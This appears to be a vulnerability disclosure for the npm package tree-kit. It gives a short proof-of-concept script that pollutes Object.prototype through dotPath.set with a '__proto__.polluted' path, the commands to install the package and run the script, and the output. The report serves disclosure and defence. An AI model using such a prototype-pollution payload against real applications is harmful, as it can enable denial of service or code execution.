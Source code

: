 # Description

`tree-kit` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { dotPath } = require('tree-kit')

console.log(`Before: ${{}.polluted}`)
dotPath.set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i tree-kit # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
